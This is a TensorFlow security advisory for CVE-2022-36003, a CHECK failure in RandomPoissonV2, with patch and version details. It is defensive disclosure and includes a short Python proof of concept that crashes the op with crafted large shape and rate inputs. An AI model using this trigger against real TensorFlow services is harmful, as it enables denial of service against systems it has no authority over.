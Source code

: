 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2022-133.md
## TFSA-2022-133: `CHECK` fail in `RandomPoissonV2`

### CVE Number
CVE-2022-36003

### Impact
When `RandomPoissonV2` receives large input shape and rates, it gives a `CHECK` fail that can trigger a denial of service attack.
```python
import tensorflow as tf
arg_0=tf.random.uniform(shape=(4,), dtype=tf.int32, maxval=65536)
arg_1=tf.random.uniform(shape=(4, 4, 4, 4, 4), dtype=tf.float32, maxval=None)
arg_2=0
arg_3=0
arg_4=tf.int32
arg_5=None
tf.raw_ops.RandomPoissonV2(shape=arg_0, rate=arg_1, seed=arg_2,
                           seed2=arg_3, dtype=arg_4, name=arg_5)
```

### Patches
We have patched the issue in GitHub commit [552bfced6ce4809db5f3ca305f60ff80dd40c5a3](https://github.com/tensorflow/tensorflow/commit/552bfced6ce4809db5f3ca305f60ff80dd40c5a3).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by 刘力源, Information System & Security and Countermeasures Experiments Center, Beijing Institute of Technology.
